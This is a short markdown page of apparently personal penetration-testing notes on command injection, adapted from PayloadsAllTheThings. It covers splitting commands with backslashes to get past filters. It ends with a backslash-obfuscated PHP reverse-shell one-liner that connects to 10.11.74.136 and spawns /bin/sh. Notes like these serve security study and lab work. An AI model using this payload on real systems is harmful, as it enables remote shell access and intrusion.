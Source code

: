 ```yaml
---
title: Command Injection 💄
---
```

- Original content from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

## Filter Bypasses

- Commands can be broken into parts by using a backslash (`\`):

![](Pasted%20image%2020240417160455.png)

![](Pasted%20image%2020240417160920.png)

## What to do after obtaining one command injection?

- Now you have to conveniently encode a web shell as the ones located in [Reverse shells 👾](reverse_shells.md)
	- Example using backslash (`\`): 

```shell
ph\p -r '$sock=fsockopen("10.11.74.136",666);exec("/bin/sh -i <&3 >&3 2>&3");'
```